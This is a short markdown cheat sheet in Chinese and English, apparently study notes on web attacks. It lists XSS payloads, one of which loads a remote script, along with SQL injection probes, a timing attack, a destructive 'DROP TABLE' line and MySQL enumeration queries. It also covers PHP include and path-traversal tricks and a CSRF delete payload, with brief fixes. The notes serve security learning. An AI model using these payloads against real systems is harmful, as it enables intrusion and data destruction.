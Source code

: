 
## 分析工具:
`burpsuite` 抓包 改包

`nmap ncat` 掃port 測port

`whois` and `theharvester` OSINT

`python` 不用多說

`sqlmap` 不用多說

還有瀏覽器的 `F12(Developer tools)` (超級有用!)
### #別當 script kiddy!!


## 常見漏洞

### XSS(Cross Site Scripting)

#### Attacking Vectors
##### 基本
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### Fixing
escape html字元

### SQL 注入

#### Attacking Vectors
##### 檢查是否有漏洞
Common vectors like

`'` and `ORDER BY 1`

Blind-Injections to check without debug info

`' AND 1=1 ` (true) `' AND 1=2 ` (false)

Timing attack

`BENCHMARK(878787878787, ('hey', 'you'))`

##### 註解掉後面的query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
use `'` and `--` 來閉合引號和註解
##### Common Vectors(MySQL for example)
`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`

##### !No `information_schema` in MySQL < 5!

#### Fixing
預編譯SQL語句

### PHP-Include (上傳漏洞)
PHP 的 include(), require(), include_once(), require_once()可供利用

#### Attacking Vectors
##### file_put_contents寫入
直接

`file_put_contents('path', content')`

##### php偽協議
`data:text/html;ascii, ........`

也可以base64

##### 本地包含(LFI)
透過改包，可以讀取檔案

##### 其他
`../../`上層目錄

用編碼繞防火牆

POST Data 也可以注入payload

### CSRF (Cross-Site-Request-Forgery)
#### Attacking Vectors
將siteB的元素注入到siteA:

`<img src = http://www.siteb.com/blog.php?action=delete></img>`

#### Fixing
檢查referer

captcha

csrf token(保存在server的session裡面，隨機產生)

### SSRF (Server-Side-Request-Forgery)
很像csrf，但是用來訪問內網的server


### ClickJacking

插一個透明的frame，直接設定成網頁大小，無論如何使用者都會點擊到frame的內容

